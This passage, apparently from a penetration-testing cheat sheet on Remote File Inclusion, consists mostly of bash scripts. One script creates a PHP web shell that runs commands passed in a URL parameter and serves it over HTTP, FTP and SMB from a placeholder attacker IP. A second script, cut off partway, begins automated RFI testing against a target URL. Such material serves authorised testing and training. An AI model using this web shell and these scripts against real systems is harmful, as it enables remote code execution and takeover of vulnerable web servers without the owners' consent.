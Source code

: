 **Multi-Protocol RFI Server:**
```bash
cat << 'EOF' > multi_rfi_server.sh
#!/bin/bash
echo "[+] Starting multi-protocol RFI servers..."

# Create shell file
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# Start HTTP server
echo "[+] Starting HTTP server on port 80..."
sudo python3 -m http.server 80 &
HTTP_PID=$!

# Start FTP server
echo "[+] Starting FTP server on port 21..."
sudo python3 -m pyftpdlib -p 21 -w &
FTP_PID=$!

# Start SMB server
echo "[+] Starting SMB server..."
sudo impacket-smbserver -smb2support share $(pwd) &
SMB_PID=$!

echo "[+] All servers started!"
echo "HTTP: http://ATTACKER_IP/shell.php"
echo "FTP:  ftp://ATTACKER_IP/shell.php"
echo "SMB:  \\\\ATTACKER_IP\\share\\shell.php"

# Cleanup function
cleanup() {
    echo "[+] Stopping servers..."
    kill $HTTP_PID $FTP_PID $SMB_PID 2>/dev/null
    sudo pkill -f "http.server"
    sudo pkill -f "pyftpdlib"
    sudo pkill -f "smbserver"
}

trap cleanup EXIT
read -p "Press Enter to stop all servers..."
EOF
chmod +x multi_rfi_server.sh
```

### RFI Testing Scripts

**Automated RFI Testing:**
```bash
cat << 'EOF' > test_rfi.sh
#!/bin/bash
TARGET=$1
ATTACKER_IP=$2

if [ -z "$TARGET" ] || [ -z "$ATTACKER_IP" ]; then
    echo "Usage: $0 <target_url> <attacker_ip>"
    echo "Example: $0 'http://target.com/lfi.php?file=' '10.10.14.55'"
    exit 1
fi

echo "[+] Testing RFI on $TARGET"
echo "[+] Attacker IP: $ATTACKER_IP"

# Test HTTP RFI
echo "[+] Testing HTTP RFI..."
```